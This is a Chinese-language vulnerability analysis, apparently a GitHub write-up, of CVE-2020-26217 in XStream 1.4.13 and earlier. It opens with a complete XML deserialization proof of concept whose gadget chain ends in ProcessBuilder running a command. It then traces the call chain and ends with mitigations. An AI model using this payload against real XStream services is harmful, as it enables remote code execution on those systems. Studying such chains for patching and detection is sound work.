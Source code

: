 # CVE-2020-26217
- [CVE-2020-26217](#cve-2020-26217)
  - [影响版本](#影响版本)
  - [漏洞分析](#漏洞分析)
    - [MapConverter](#mapconverter)
    - [Base64Data](#base64data)
    - [DataSource](#datasource)
    - [FilterIterator](#filteriterator)
    - [ImageIO$ContainsFilter](#imageiocontainsfilter)
    - [调用链](#调用链)
  - [修复方式](#修复方式)
  - [参考](#参考)

## 影响版本
Xstream <= 1.4.13  
POC:
```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>calc</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```
## 漏洞分析
从`TreeUnmarshaller.start`开始解析xml,从最外面的`<map>`标签开始,`map`的实现类从`mapper.defaultImplementationOf`中获取为`HashMap`类,而对应的`convert`转换器为`MapConverter`.
![](2021-11-11-23-37-45.png)
### MapConverter
`MapConverter`用于将`java.util.Map`和XML进行相互转换,在`map`标签下的`entry`元素指定对应的键值即可,在POC中指定的键为一个`jdk.nashorn.internal.objects.NativeString`对象,而值为`test`.
![](2021-11-12-16-35-46.png)
然后进入`AbstractReferenceUnmarshaller.convert`中进行了一些将当前标签压栈缓存的操作之后,继续调用其父类的`convert`.
![](2021-11-11-23-44-50.png)
在父类的`convert`中将类型`HashMap`缓存一下就进入到`MapConverter`中进行解析,在`Mapconvert`中调用`createCollection`创建了一个空的`Map`对象,然后调用`populateMap`方法来填充,然后开始读取`<Entry>`节点得到键值对象放入`Map`中,调用关系如下.
![](2021-11-12-00-03-43.png)
在调用`put`将键值放入map中会计算其key的hash.
![](2021-11-12-16-43-22.png)
而在`hash`中则会调用key的`hashcode()`方法,也就是`NativeString`的`hashcode`方法.
![](2021-11-12-16-44-21.png)
在`NativeString`的`hashcode`中调用了`getStringValue().hashcode()`.
![](2021-11-12-16-50-20.png)
### Base64Data
而在`getStringValue()`中则返回`NativeString`的values,也
就是`Base64Data.toString()`.
![](2021-11-12-17-18-15.png)
在`toString()`中又先调用了`this.get()`,在`get()`中将`dataHandler`中的`DataSource()`通过`readFrom`放入了一个字节数组中.
![](2021-11-12-18-57-34.png)
### DataSource
而此时的`DataSource`内容如POC一样如下
![](2021-11-12-19-12-05.png)
在`readFrom`中调用了`is.read`,而此时的`is`则为poc中指定的`java.io.SequenceInputStream`顺序输入流.
![](2021-11-12-19-24-34.png)
在输入流`in.read`方法中循环读取时调用`nextStream`,而在该方法中读取了`e`的节点,而此处的e即为poc中`e`标签指定的`javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator`.
![](2021-11-12-19-29-10.png)
在读取`javax.swing.MultiUIDefaults`节点时又会继续调用其下的`iterator.next()`读取`iterator`节点,而此时的`iterator`值为我们可控的`javax.imageio.spi.FilterIterator`
![](2021-11-12-19-31-21.png)
### FilterIterator
进入到`FilterIterator.next()`中调用了其`advance()`方法.
![](2021-11-12-19-42-43.png)
而该对象的`iter`和`filter`均可控,分别为我们poc中的`java.util.ArrayList$Itr`和`javax.imageio.ImageIO$ContainsFilter`.
![](2021-11-12-19-43-19.png)
### ImageIO$ContainsFilter
然后循环读取`iter`节点的值分别调用`filter.filter`.而在`ImageIO$ContainsFilter`这个filter中的filter方法则是使用了反射来返回了一个`contains`,而反射参数均可控,最后造成了RCE.
![](2021-11-12-19-48-10.png)
### 调用链
完整调用链如下:
![](2021-11-12-19-50-00.png)
总体思路即`MapConverter`中在将指定的键放入map中时会计算键名的Hash,其中会调用到键的toString()方法,而`Base64Data`类的toString()的方法中通过迭代来读取其对应的属性,当设置迭代器为`ImageIO$ContainsFilter`时,该类调用了反射的方式生成对应的容器,而反射的参数均可控造成漏洞.
## 修复方式
1. 使用官方的安全框架白名单.
2. 将javax.imageio.ImageIO$ContainsFilter手动添加到黑名单中.
## 参考
https://x-stream.github.io/CVE-2020-26217.html  
https://xz.aliyun.com/t/8526